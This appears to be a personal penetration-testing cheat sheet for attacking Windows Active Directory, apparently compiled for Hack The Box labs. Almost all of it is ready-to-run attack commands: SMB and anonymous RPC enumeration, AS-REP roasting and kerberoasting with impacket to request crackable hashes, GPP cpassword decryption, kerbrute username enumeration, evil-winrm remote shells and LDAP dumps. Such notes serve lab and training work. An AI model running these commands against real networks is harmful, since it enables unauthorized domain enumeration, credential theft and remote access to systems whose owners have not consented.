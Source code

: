

## SMB Enum [port 445, 139]
smbmap -H $ip
smbclient -L //$IP/
smbclient -L //$IP/share -c "recurse,ls"
enum4linux -a $IP
smbexec


## RPC ENum [port 135]
rpcclient -U 'CICADA.htb/' $IP
rpcclient -U '' -N $IP
  enumdomusers
  enumdomgroups
  lookupnames administrator
  lookupsid $SID
  queryuser marko
rpcdump.py
rpcmap.py

## NP USERS 
impacket-GetNPUsers -dc-ip $IP -request 'htb.local/' -no-pass
sudo ntpdate $IP
impacket-GetUserSPNs -request -dc-ip $IP dc.htb/SVC_TGS:$password[cpassword]

## WinRM [only when we have creds and Webserver Microsoft HTTPAPI]
evil-winrm -i $IP -u $USERNAME


## GPP Decryption [cpassword, kerberoasting]
gpp-decrypt $password


## KerbRute
kerbrute userenum -d megabank.local /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --dc $IP

# LDAPSEARCH
# Anonymous LDAP enumeration (without credentials)
ldapsearch -x -H ldap://<IP> -b "dc=<domain>,dc=com"
ldapsearch -H ldap://$IP -x -s base namingcontext
ldapsearch -H ldap://$IP -x -b"DC=htb,DC=local" "(objectClass=User)" 'sAMAccountName' | grep sAMAccountName

# LDAP enumeration with credentials
ldapsearch -x -H ldap://<IP> -D "<user>@<domain>" -w "<password>" -b "dc=<domain>,dc=com"
ldapsearch -LLL -H ldap://<IP> -D "<user>@<domain>" -w "<password>" -b "dc=<domain>,dc=com" "(objectClass=*)" | tee ldap_results.txt
